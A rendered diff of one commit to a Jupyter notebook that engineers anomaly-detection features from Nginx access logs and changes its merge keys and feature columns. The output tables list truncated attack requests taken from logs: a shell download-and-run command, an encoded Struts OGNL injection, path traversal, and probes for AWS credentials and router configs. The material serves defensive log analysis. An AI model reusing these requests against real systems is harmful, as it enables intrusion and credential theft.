

Before and after one commit to mblaster00/Data-Pipeline-For-Anomalies-Detection, a Jupyter notebook: Model_Anomalies_Detection_Based_On_Nginx_AccessLog.ipynb, the cells around one changed output, grey strips where cells are left out. Saved outputs shown, nothing was run; the diff lists cells and outputs as text; code cells hidden in the pictures; blank space fills up the shorter version.

```diff
--- a/Model_Anomalies_Detection_Based_On_Nginx_AccessLog.ipynb
+++ b/Model_Anomalies_Detection_Based_On_Nginx_AccessLog.ipynb
@@ -415,9 +444,7 @@ avg_timedelta_data.head()
 # %%
-merge_1 = ip_counts.merge(daily_counts_agg, on='remote_addr', how='left')
+merge_1 = ip_counts.merge(daily_counts_agg, on=all_col[1], how='left')
 # %%
-merge_2 = merge_1.merge(lean_weekend_counts_agg, on='remote_addr', how='left')
+final_data = merge_1.merge(lean_weekend_counts_agg, on=all_col[1], how='left')
-# %%
-final_data = merge_2.merge(avg_timedelta_data, on='remote_addr', how='left')
 # %%
 final_data.head()
 # %% [output]
@@ -436,20 +464,25 @@ Index(['remote_addr', 'url', 'total_count', 'request_time_mean',
 # %%
 min_max_scaler = preprocessing.MinMaxScaler()
 # %%
-feature_cols = ['remote_addr', 'url', 'total_count', 'request_time_mean', 'daily_counts', 'is_weekend_ratio', 'td_mean', 'td_max']
-data_new = final_data[feature_cols[2:]]
+feature_cols = ['url', 'bytes_sent_mean', 'upstream_response_mean', 'status_code_4XX_sum',
+                'status_code_5XX_sum','total_count', 'request_time_mean', 'daily_counts', 'is_weekend_ratio']
+data_new = final_data[feature_cols[1:]]
 np_scaled = min_max_scaler.fit_transform(data_new)
-data_new = pd.DataFrame(np_scaled, columns=feature_cols[2:])
+data_new = pd.DataFrame(np_scaled, columns=feature_cols[1:])
 data_new.fillna(0,inplace=True)
-data_new[['remote_addr', 'url']] = final_data[['remote_addr', 'url']]
+data_new[all_col[1]] = final_data[all_col[1]]
 data_new.insert(0, 'url', data_new.pop('url'))
-data_new.insert(0, 'remote_addr', data_new.pop('remote_addr'))
 # %%
-data_new.head()
+data_new.head(10)
 # %% [output]
-|  | remote_addr | url | total_count | request_time_mean | daily_counts | is_weekend_ratio | td_mean | ... |
-| 0 | 1.82.197.82 | /setup.cgi?next_file=netgear.cfg&... | 0.000000 | 0.000000 | 0.000000 | 0.0 | 0.0 | ... |
-| 1 | 101.0.38.199 | /boaform/admin/formLogin?username... | 0.000000 | 0.000000 | 0.000000 | 0.0 | 0.0 | ... |
-| 2 | 101.0.38.30 | /setup.cgi?next_file=netgear.cfg&... | 0.000000 | 0.000000 | 0.000000 | 0.0 | 0.0 | ... |
-| 3 | 101.0.54.179 | /shell?cd+/tmp;rm+-rf+*;wget+http... | 0.000000 | 0.000000 | 0.000000 | 0.0 | 0.0 | ... |
-| 4 | 101.227.1.196 | /vendor.5e6644fddfb266dc22c4.js | 0.000372 | 0.000626 | 0.000372 | 0.0 | 0.0 | ... |
+|  | url | bytes_sent_mean | upstream_response_mean | status_code_4XX_sum | status_code_5XX_sum | total_count | ... |
+| 0 | 0 | 0.000096 | 0.000000e+00 | 0.404147 | 0.0 | 0.096582 | ... |
+| 1 | %27https://agent-api.wizall.com/s... | 0.000113 | 0.000000e+00 | 0.000461 | 0.0 | 0.000000 | ... |
+| 2 | * | 0.000113 | 0.000000e+00 | 0.108756 | 0.0 | 0.025910 | ... |
+| 3 | / | 0.000738 | 6.005318e-07 | 0.971429 | 0.0 | 0.525358 | ... |
+| 4 | /%24%7B%28%23a%3D%40org.apache.co... | 0.000453 | 0.000000e+00 | 0.000461 | 0.0 | 0.000000 | ... |
+| 5 | /%24%7B%28%23a%3D%40org.apache.co... | 0.000123 | 0.000000e+00 | 0.000922 | 0.0 | 0.000110 | ... |
+| 6 | /%25EXT%25.php | 0.000116 | 0.000000e+00 | 0.000461 | 0.0 | 0.000000 | ... |
+| 7 | /../../../mnt/mtd/Config/Account1 | 0.000113 | 0.000000e+00 | 0.000922 | 0.0 | 0.000110 | ... |
+| 8 | /.DS_Store | 0.000121 | 4.890866e-06 | 0.006452 | 0.0 | 0.001433 | ... |
+| 9 | /.aws/credentials | 0.000197 | 9.129616e-07 | 0.020737 | 0.0 | 0.004851 | ... |
```
Also changed, not shown: parts of 109 cells of this notebook, 3 other files.
